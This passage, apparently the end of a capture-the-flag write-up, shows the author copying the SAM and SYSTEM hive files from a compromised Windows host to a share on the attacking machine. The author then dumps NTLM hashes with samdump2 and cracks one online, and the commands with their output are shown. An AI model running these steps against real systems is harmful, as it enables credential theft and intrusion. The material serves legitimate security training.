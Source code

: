 And copy them over:

```text
C:\Users\Administrator\Desktop>copy C:\Users\Administrator\Desktop\SAM Z:\
copy C:\Users\Administrator\Desktop\SAM Z:\
        1 file(s) copied.

C:\Users\Administrator\Desktop>copy C:\Users\Administrator\Desktop\SYSTEM Z:\
copy C:\Users\Administrator\Desktop\SYSTEM Z:\
        1 file(s) copied.
```

Now that the files are back on my attacking machine I can run:

```text
samdump2 SYSTEM SAM
```
To extract the stored NTLM hashes of the users:

![hashes.png](../assets/blueprint_assets/hashes.png)

Cool, lets head over to https://crackstation.net/ and crack this hash:

(Obviously on a real engagement you're definitely not gonna wanna post live password hashes in a site like this, but it's a huge time saver on CTFs)

Nice, Crackstation instantly cracked the hash

![crack.png](../assets/blueprint_assets/crack.png)

And that's that! Thank you for following along,

-Ryan

-------------------------------------------------------------
